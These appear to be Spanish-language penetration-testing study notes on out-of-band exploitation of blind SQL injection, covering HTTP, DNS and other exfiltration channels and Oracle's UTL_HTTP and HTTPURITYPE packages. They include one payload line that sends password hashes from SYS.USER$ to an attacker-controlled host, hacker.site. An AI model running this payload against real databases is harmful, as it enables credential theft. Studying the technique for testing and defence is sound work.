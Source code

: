 ## Out-of-Band Exploitation

Utilice cuando se enfrenta a escenarios de inyección SQL de especial ciegas. En estas situaciones, no podemos confiar en las técnicas inferenciales para recuperar datos.

Estos no funcionarán porque los resultados están siendo limitados, filtrados, y así sucesivamente; por lo tanto, tenemos que optar por otro CHANNEL para llevar esta información.

### Alternative OOB CHannels

Los más relevantes:

```
HTTP
DNS
email
Database Connections
```

### OOB via HTTP

Podemos aprovechar el canal HTTP Para los sistemas DBMS que proporcionan características Para acceder a los datos en Internet a través de HTTP usando SQL

* Utilizando estas características, podemos crear una consulta a un recurso web controlado por el hacker y luego controlar el registro de acceso Para analizar todas las solicitudes llegadas.
* Sólo Oracle proporciona esta característica de manera nativa

Dos técnicas \[ Oracle ]:

```
UTL_HTTP

# HTTPURIType: https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/t_dburi.htm#BGBGAHAA
```

Oracle URL\_HTTP package → https://docs.oracle.com/cd/B19306\_01/appdev.102/b14258/u\_http.htm

* Puede utilizar tanto a través de SQL como PL/SQL

Dos divertidos útiles:

```
REQUEST
REQUEST_PIECES
```

Only the REQUEST can be used in a SQL query:

```sql
SELECT UTL_HTTP.REQUEST ('hacker.site/'||(SELECT spare4 FROM SYS.USER$ WHERE ROWNUM=1)) FROM DUAL;
```

The REQUEST\_PIECES debe utilizarse en a PL/SQL Block \*example in images

Oracle HTTPURITYPE Package

* La primera es a menudo desactivada.
